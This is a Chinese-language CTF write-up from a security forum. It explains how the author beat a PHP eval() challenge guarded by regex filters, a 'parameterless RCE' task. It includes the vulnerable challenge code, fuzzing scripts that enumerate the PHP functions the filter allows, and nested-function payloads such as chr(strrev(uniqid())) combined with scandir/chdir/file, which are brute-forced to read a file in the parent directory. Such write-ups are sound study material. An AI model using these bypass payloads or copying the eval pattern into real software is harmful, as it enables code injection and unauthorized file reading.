





# 从一道 CTF 题学习 Fuzz 思想 - 先知社区

从一道 CTF 题学习 Fuzz 思想

- - -

## 前言

​ 最近参加了两个 CTF 比赛，都遇到了无参数 RCE 的问题。第一次遇到虽然没解出来，但是为第二次比赛遇到做了基础铺垫，第二次也迎刃而解，同时这次比赛也学到了很多 fuzz 的方法和思路，在这里做个总结。

## 题目

```plain
<?php
highlight_file(__FILE__);
$code = $_GET['code'];
if (!empty($code)) {
        if (';' === preg_replace('/[a-z]+\((?R)?\)/', NULL, $code)) {
            if (preg_match('/readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/i', $code)) {
                    echo 'bye~';
                } else {
                    eval($code);
                }
            }
        else {
            echo "No way!!!";
        }
}else {
        echo "No way!!!";
    }
```

-   **题目分析**
    
    -   从题目第一个正则（`[a-z]+\((?R)?\)`）只匹配`字符串+（）`的类型，并且括号内为空字符串仅可以由 26 个小写字母组成。我们再看代码，`preg_replace()`函数对匹配成功的字符串替换为 NUILL，如果剩下的职业`(;)`那么就会通过这个正则。我们用一个代码来测试，我们传两个参数然后对这两个参数进行替换后打印看剩下的是什么值，就能很直观的看到这一点。

[](https://xzfile.aliyuncs.com/media/upload/picture/20191109141911-d86da824-02b8-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20191109141915-da9ebe12-02b8-1.png)

-   我们分别传入了`echo();`、`echo(122);`和`echo(phpinfo())`,可以看到参数一最终替换剩下一个`(;)`分号，而参数二无法匹配成功替换失败，参数三是 echo 嵌套一个 phpinfo 函数，同样匹配成功替换剩下一个`(;)`分号。那么这里就说明了我们这个正则虽然不能能够匹配存在参数的函数，但是可以嵌套函数使用。
    
-   题目第二个正则`(readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log)`过滤了哪些函数呢，这个我们可以直接编写两个脚本进行 FUZZ，第一个脚本可以获取 PHP 中所有内置函数，将它写到一个文本文件中。第二个 python 脚本则是匹配能够使用的函数，并将其打印出来，这样一来我们就知道有哪些函数能够为我们所用。
    
    -   获取 PHP 内置函数
    
    ```plain
    <?php
    $a = get_defined_functions()['internal'];
    $file = fopen("function.txt","w+");
    foreach ($a as $key ) {
     echo fputs($file,$key."\r\n");
    }
    fclose($file);
    ?>
    ```
    
    -   查找能使用的函数
    
    ```plain
    import re
    f = open('function.txt','r')
    for i in f:
        function = re.findall(r'/readfile|if|time|local|sqrt|et|na|nt|strlen|info|path|rand|dec|bin|hex|oct|pi|exp|log/',i) 
        if function == [] and not '_' in i:
            print(i)
    ```
    

-   **构造 payload-解决问题**
    
    -   首先题目出题人用了他工地英语 (开个玩笑) 提示了我们 flag 在上层目录下的`index.php`，那我们就需要读取上层目录下的`index.php`的源码，我们知道`scandir()`函数式能够读取源码，但是他必须带有参数`（'.'）`也就是`scandir('.')`，在不断阅读函数中我发现`uniqid()`函数能够生成动态的字符串，但是他前半部分是固定不变的，但是后半部分是动态变化的，正好`strrev()`函数也可以使用那么，我们就可以将它翻转过来然后直接转换转换为 char 不久可以动态构造任意字符了吗？发现这点，我立刻写了个脚本去验证我的想法。
        
        ```plain
        <?php
        error_reporting(0);
        for($i=0;$i<1000;$i++)
        echo(chr(strrev(uniqid())));
        ?>
        ```
        

[](https://xzfile.aliyuncs.com/media/upload/picture/20191109141927-e1f90fdc-02b8-1.png)

-   从脚本的运行结果来看已经达到了预期目的，生成了`(.)`点，那么我们通过条件竞争就可以达到预期目的。那么我们构造如下 payload 去读取文件目录看是否能成功，由于 scandir 返回的是数组，并且 var\_dump 是无法通过第一个正则的，所以我们可以使用`implode()`将数组转换为字符串在`echo()`打印出来。
    
    ```plain
    echo(implode(scandir(chr(strrev(uniqid())))));
    ```
    
-   我们传参后使用 burpsuite 进行条件竞争，可以看到成功获取文件目录。
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20191109141937-e7c28704-02b8-1.png)

-   那么问题又来了，我们该如何去读取上层目录的 index.php 呢？首先我们要读取上层目录的文件，必须先跳转到上层目录，这里我们从我们脚本匹配的结果看`chdir()`函数并未被过滤，所以我们可以使用它先跳转到上层目录再去读取文件，但是要跳转到上层目录需要构造两个点即`chdir('..')`那么该如何构造呢，其实很简单，我们看上方返回了当前目录下的文件列表，其实它是返回来了一个数组，这个数组结构如下：
    
    ```plain
    [0=>'.',1=>'..',3=>'index.php']
    ```
    
-   我们可以发现第二个元素就是两个点，我们可以使用`next()`函数去获取到这两个点。我们先根据此读取到上层目录列表构造 payload 如下：
    
    ```plain
    echo(implode(scandir(next(scandir(chr(strrev(uniqid())))))));
    ```
    
-   传入这个 payload 再使用 burpsuite 进行条件竞争，可以发现已经读取了上层目录列表。
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20191109141956-f310edc6-02b8-1.png)

-   可以发现 index.php 是在这个目录列表数组中的最后一个元素，那么我们要读取这个文件名直接读取这个数组中的最后一个元素即可，这里我们可以使用`end()`函数获取，我们先跳转到上个目录：
    
    ```plain
    chdir(next(scandir(chr(strrev(uniqid())))))
    ```
    
-   读取文件呢，我们可以使用第一个 payload 读取到文件目录，然后使用 end() 函数去读取最后一个元素，进而读取文件这里我们使用 file() 函数去读取文件。
    
    ```plain
    file(end(scandir(chr(strrev(uniqid()))))
    ```
    
-   那么综合起来 payload 如下：
    
    ```plain
    echo(implode(file(end(scandir(chr(strrev(uniqid(chdir(next(scandir(chr(strrev(uniqid())))))))))))));
    ```
    
-   但是这里存在一个问题，那就是两次去的值不一定都是点，那么就需要进行 N 次爆破，在某一时刻这两个值都取到点的时候那么就会读取成功。
    

[](https://xzfile.aliyuncs.com/media/upload/picture/20191109142009-facfa9da-02b8-1.png)

-   当然最后官方 payload 是使用三角函数去算出这个点，但是这里主要是将以下我个人的想法，也希望这道题的解题思路，可以帮助到其他人。

## 总结

-   这道题可以说是上次`ByteCTF-boringcode`的 plus，但是题目不在多更多的是要掌握 Fuzz 的方法，从这次比赛中我也了解到了无参数函数的利用，其实无参数 RCE 的用法很多师傅都做了很多总结，但是我们在遇到问题时候可能出题人已经将这些网上公开的方法给 ben 掉了，这时候就需要我们去 Fuzz 去分析。
